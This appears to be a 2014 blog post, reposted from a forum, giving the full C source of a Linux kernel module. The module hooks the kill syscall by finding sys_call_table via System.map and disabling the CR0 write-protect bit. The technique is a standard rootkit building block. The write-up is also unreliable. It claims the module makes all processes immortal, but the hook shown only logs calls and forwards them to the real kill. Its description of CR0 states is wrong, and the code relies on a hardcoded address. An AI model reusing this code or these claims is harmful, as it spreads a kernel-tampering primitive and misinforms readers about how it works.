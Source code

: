 Today I come with a small demo of a hook in Ring0
that I just finished, which will serve to make all the processes in Ring3 immortal.

Since kernel versions 2.6, write permissions have been removed,  leaving read-only permissions and the syscall table cannot be exported.
So we must find another method to hooke the syscall table, one of them is looking in "boot/System.map" where you can find the addresses to the syscall(in my case System.map-3.2.6).

The standard **__NR_kill** is to hook **kill_pid** but if you want another function just look at the syscall_table and look for the correct **NR**.
In order to allow read/write and make a successful hook we need to momentarily disable the CR0(control register) bit which is in charge of protecting memory sections against writes.
CR0 has 2 states:<br/>
```
0x0000 = read/write mode.
0x0001 = write mode.
```

The 2 functions that I will use for this are native_read_cr0 and native_write_cr0 which will allow us to alter their states.<br/>
In my case the System.map-3.2.6 file contained the pointer to the *syscall table* and *kill pid* at the following addresses:
```
25940 - c1562120 R sys_call_table
2169 - c105bb80 T kill_pid
```

So on your systems it may not work, this is why I mentioned above to look at the **System.map** file, if you try it on your own....
Once the driver is installed if we try to kill any process, this is what happens.

![1](/images/1.png)

Once uninstalled, the processes can be killed normally:

![2](/images/2.png)

Code:
```C
/*
	Author: Gabriel Zenobi(NvK)
	Thanks to: http://memset.wordpress.com/2010/12/03/syscall-hijacking-kernel-2-6-systems/
	Description: Makes all processes in ring3 immortal
*/
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/unistd.h>
#include <linux/mm.h>
#include <linux/highmem.h>

#include <asm/cacheflush.h>
#include <asm/io.h>
#include <asm/setup.h>
#include <asm/system.h>
#include <asm/pgtable.h>
#include <asm/pgalloc.h>

#define ELF_INITED 		".text.data"
#define ELF_BEGIN		".text.text"

static unsigned long kill_calls= 0;
// Puntero a la tabla
unsigned long *sys_call_table= (unsigned long*)0xc1562120;
// Función restaurada...
asmlinkage int (*original_kill)(pid_t, int);

int call_x86_hook_kill(pid_t pid, int sig)
{
	printk(KERN_ALERT "\n[+] x86 kill Hooked %ld", kill_calls++);
	return (*original_kill)(pid, sig);
}

static int __section(.init.text)__attribute__((cold)) notrace INIT_KERNEL(void)
{
	// desactivar bit de control
	native_write_cr0(native_read_cr0()&(~0x10000));
	
	original_kill= (void *)sys_call_table[__NR_kill];
	sys_call_table[__NR_kill]= call_x86_hook_kill;
	
	// activar bit de control(volver a su estado normal)
	native_write_cr0(native_read_cr0() | 0x10000);
  
  return 0;
}

static void __section(.exit.data) EXIT_KERNEL(void)
{
	native_write_cr0(native_read_cr0()&(~0x10000));
	sys_call_table[__NR_kill]= original_kill;
	native_write_cr0(native_read_cr0() | 0x10000);
	
	return;
}

module_init(INIT_KERNEL);
module_exit(EXIT_KERNEL);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Nvk");
MODULE_DESCRIPTION("ring0 x86 hook - [kill poc]");
```

if you just want to know how many times the system has made the syscall change the following line:

> int call_x86_hook_kill(pid_t pid, int sig)

for this one:

> asmlinkage call_x86_hook_kill(pid_t pid, int sig)

***

My original post: https://indetectables.net/viewtopic.php?t=50056
<br/>
Date: May 26, 2014
